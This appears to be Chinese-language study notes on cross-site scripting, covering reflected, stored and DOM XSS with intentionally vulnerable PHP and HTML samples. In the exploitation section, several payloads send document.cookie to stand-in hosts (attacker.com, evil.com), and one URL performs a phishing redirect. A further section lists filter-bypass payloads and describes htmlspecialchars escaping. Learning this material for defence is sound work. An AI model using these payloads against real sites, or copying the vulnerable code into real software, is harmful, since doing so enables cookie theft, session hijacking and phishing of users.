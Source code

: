 # <center> XSS -- Cross-Site Scripting
---
攻击者利用网站漏洞把恶意的脚本代码注入到网页中，当其他用户浏览这些网页时，就会执行其中的恶意代码，对受害用户可能采取 Cookies 资料窃取、会话劫持、钓鱼欺骗等各种攻击。

## Reflected Cross-Site Scripting
反射型 XSS 的利用一般是攻击者通过特定手法（如电子邮件），诱使用户去访问一个包含恶意代码的 URL，当受害者点击这些专门设计的链接的时候，恶意代码会直接在受害者主机上的浏览器执行。此类 XSS 通常出现在网站的搜索栏、用户登录口等地方，常用来窃取客户端 Cookies 或进行钓鱼欺骗。

- 服务器：理解成数据
- 浏览器：理解成代码
  
e.g.
服务器端代码
```php
<?php 
// Is there any input? 
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) { 
    // Feedback for end user 
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>'; 
} 
?>
```
构造恶意url
```
https://example.com/search?name=<script>...</script>
```
诱导用户访问该url
## Persistent / Stored Cross-Site Scripting
此类 XSS 不需要用户单击特定 URL 就能执行跨站脚本，攻击者事先将恶意代码上传或储存到漏洞服务器中，只要受害者浏览包含此恶意代码的页面就会执行恶意代码。持久型 XSS 一般出现在网站留言、评论、博客日志等交互处，恶意脚本存储到客户端或者服务端的数据库中。

服务器端代码
```php
<?php
  if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    // Sanitize message input
    $message = stripslashes( $message );
    $message = mysql_real_escape_string( $message );
    // Sanitize name input
    $name = mysql_real_escape_string( $name );
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );
    //mysql_close(); }
?>
```

## DOM (Document Object Model) XSS
恶意代码的执行完全在客户端（浏览器）完成，不涉及服务器端反射

```html
<html>
  <head>
    <title>DOM-XSS test</title>
  </head>
  <body>
    <script>
      var a=document.URL;
      document.write(a.substring(a.indexOf("a=")+2,a.length));
    </script>
  </body>
</html>
```


## 利用方式
### 获取Cookie
```php
<script>
fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```
```php
<script>
new Image().src="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
```
```php
<script>
document.location="http://www.evil.com/cookie.asp?cookie="+document.cookie
</script>
```
### 会话劫持

### 钓鱼
重定向
```
http://www.bug.com/index.php?search="'><script>document.location.href="http://www.evil.com"</script>
```

## 防御 & 绕过
过滤掉 `<script>` 
- 利用 `<img>`, `<svg>` 
```html
<svg onload="alert(1)"></svg>
```

- 利用 on* 事件
```html
<input name=keyword  value="" onfocus="alert()" autofocus="">
```

过滤掉 on 事件
- 利用 javascript: 协议绕过
  
html转义
htmlspecialchars() 将以下字符转义为html实体：
```
& → &amp;
" → &quot; (当使用 ENT_QUOTES 时也会转义单引号)
' → &#039; (仅当使用 ENT_QUOTES 时)
< → &lt;
> → &gt;
```